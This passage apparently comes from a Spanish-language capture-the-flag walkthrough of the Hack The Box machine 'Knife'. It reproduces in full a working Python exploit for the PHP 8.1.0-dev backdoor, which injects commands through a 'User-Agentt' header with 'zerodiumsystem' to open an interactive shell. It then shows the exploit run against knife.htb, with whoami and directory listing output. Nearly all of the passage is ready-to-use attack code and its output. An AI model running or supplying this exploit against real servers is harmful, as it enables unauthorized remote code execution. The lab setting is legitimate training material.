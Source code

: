 ```python
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, 
but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an 
attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Una vez que entendemos como funciona el script es hora de utilizarlo, damos permiso de ejecucion al archivo con `chmod +x 49933.py` y ejecutamos

```bash
python3 49933.py                  
Enter the full host url:
http://knife.htb/

Interactive shell is opened on http://knife.htb/ 
Can't acces tty; job crontol turned off.
$ whoami
james

$ ls
bin
boot
cdrom
dev
etc
home
```